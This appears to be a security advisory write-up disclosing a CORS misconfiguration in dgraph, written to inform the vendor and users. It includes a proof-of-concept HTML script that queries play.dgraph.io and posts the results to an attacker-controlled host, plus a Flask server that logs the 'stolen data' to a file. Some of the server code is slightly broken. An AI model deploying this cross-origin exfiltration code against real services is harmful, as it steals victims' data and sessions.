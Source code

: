 ### Summary
It is possible to steal sensitive information from the platform such as logs, browser sessions, settings containing private API KEYS from other services; it is possible to make a user delete a project, send a message, etc. due to CORS misconfiguration.

Because the locally deployed dgraph service does not have relevant data, play.dgraphit.io is used for demonstration here

### Detail
Due to incorrect settings here
![image](https://github.com/user-attachments/assets/7330cfff-fcc8-4de1-b4f4-252aaa47c4a0)


1.We need to create an HTML file that can be deployed on the attacker's server, assuming it is accidentally accessed by the victim
The main task of this HTML is to access API interfaces in play.dgraphit.io that have vulnerabilities due to incorrect configuration, and return the resulting data obtained from the access to the attacker
```
<script>
fetch('https://play.dgraph.io/query?timeout=20s', {
  method: 'POST', 
  headers: {
    'Content-Type': 'application/graphql+-'
  },
  body: `
  {
      samples(func: has(<NRHP>), first: 10) {
          uid
          expand(_all_) {
            uid
            expand(_all_)
          }
      }
  }
  ` 
})
  .then(response => response.text()) 
  .then(data => {
    console.log('Got sensitive data:', data); 


    fetch('http://192.168.137.10:5000/steal-data', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify({ stolenData: data }) 
    })
    .then(response => response.text())
    .then(result => {
      console.log('send data success', result);
    })
    .catch(error => {
      console.error('send data failed:', error); 
    });
  })
  .catch(error => {
    console.error('No data:', error);
  });

</script>

```



2.The attacker also needs to create an HTTP server to receive the data
```
om flask import Flask, request
from flask_cors import CORS

app = Flask(__name__)
CORS(app)  

@app.route('/steal-data', methods=['POST'])
def steal_data():
    data = request.get_json()
    
    if data:
        print(f"Received data: {data}")
        with open('stolen_data.txt', 'a') as f:
            f.write(str(data) + '\n')
        return "Got data", 200
    else:
        return ,400

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```
At the end, we obtained the data
![image](https://github.com/user-attachments/assets/7027ae92-730b-4aad-93c5-5bf8469105bf)


### Impact
dgraph/x /x.go 


### Refer 
[Github Origin](https://github.com/dgraph-io)  

I have been contacted  with dgraph Vendor contacted beforehand with the following Security advisory.
[Github security](https://github.com/dgraph-io/dgraph/security/advisories/GHSA-jvx8-g626-pxr6)
